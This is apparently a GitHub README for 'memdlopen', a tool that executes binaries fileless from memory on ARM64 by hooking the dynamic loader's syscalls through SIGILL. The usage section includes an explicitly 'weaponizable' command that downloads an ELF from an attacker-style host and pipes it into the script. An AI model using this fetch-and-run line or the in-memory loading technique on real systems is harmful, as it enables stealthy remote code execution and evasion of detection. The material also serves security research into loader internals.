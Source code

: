 # memdlopen

This is an implementation of the technique developed in the paper [Remote Library Injection](http://web.archive.org/web/20060218185544/http://www.nologin.org/Downloads/Papers/remote-library-injection.pdf) published at Nologin. There's [another implementation](https://github.com/m1m1x/memdlopen) which has a severe problem: **code signatures**, which is precisely what I have fixed.

I think of this project as an alternative to [DDexec](https://github.com/arget13/DDexec).

## Usage
**Currently only available for ARM64, and still trying to get it to work on Android.** Will be ported to x64, until then for x64 (and ARM64 too) you have [DDexec](https://github.com/arget13/DDexec).

Pipe the binary into the memdlopen.sh script, its arguments will be the arguments for the *memdlopened* program (starting with `argv[0]`).
Here, try this
```
bash memdlopen.sh ls -lA < /bin/ls
```
which is easily weaponizable with something like
```
wget -O- https://attacker.com/binary.elf | bash memdlopen.sh argv0 foo bar
```
or you can paste the base64 of the binary to this command
```
base64 -d | bash memdlopen.sh argv0 foo bar
```

## In a li'l more detail
The way this tool achieves execution of the shellcode is the same as DDexec and is explained [here](https://github.com/arget13/DDexec#the-technique) -in fact memdlopen.sh is a modified version of ddsc.sh from the DDexec repository. The shellcode is what differs. While the DDexec shellcode parses the binary and the loader and loads them both, leaving then the loader to load the binary's dependencies, the memdlopen shellcode calls `dlopen()` and tricks the loader into loading the file from memory instead of disk.

The idea presented in the forementioned paper [Remote Library Injection](http://web.archive.org/web/20060218185544/http://www.nologin.org/Downloads/Papers/remote-library-injection.pdf) is to hook in some way to the syscalls the loader performs while loading a shared object, then **spoof these syscalls and pretend** they were performed by the kernel when they are intended to obtain data from the fake filepath we give to `dlopen()`. So when the loader tries to `open()` (or `openat()`) our file we will see our fake filename in the argument for `open()` and will return a fake file descriptor (e. g. 1337). In subsequent file operations the loader will use this file descriptor when trying to `read()` or `mmap()` from the file. We will detect the use of said fd and just `memcpy()` from the memory area where the file is laid to the address the loader wants the data.

### Code signatures is a bad idea
OK, so we need to find a way to hook to these syscalls the loader makes but in the paper its authors never specify how to make this. There is an implementation of the technique [here](https://github.com/m1m1x/memdlopen) which uses **code signatures** to find the places where the loader makes each syscall. This is a severe problem that renders the implementation unhelpful: you would need to download the loader from the system, search the code signatures for that specific build and reassemble the payload. Forget about it.

### Hooking syscalls my way
My idea is to search the loader for `svc #0`/`syscall` instructions and replace them with invalid ones. After installing a signal handler for the SIGILL signal we will be in effect hooked to all syscalls the loader performs. When the loader executes this invalid instruction the process will receive a SIGILL instruction and our signal handler will be called. When a signal handler is called all the context previous to the signal is saved in the stack ([struct sigcontext](https://elixir.bootlin.com/linux/latest/source/arch/arm64/include/uapi/asm/sigcontext.h#L28), which is different in [x64](https://elixir.bootlin.com/linux/latest/source/arch/x86/include/uapi/asm/sigcontext.h#L238)). From this structure we can obtain all the arguments and the syscall number intended for the kernel. Now we can let the syscall through to the kernel or fake it if needed, then return seamlessly and the loader won't suspect a thing.
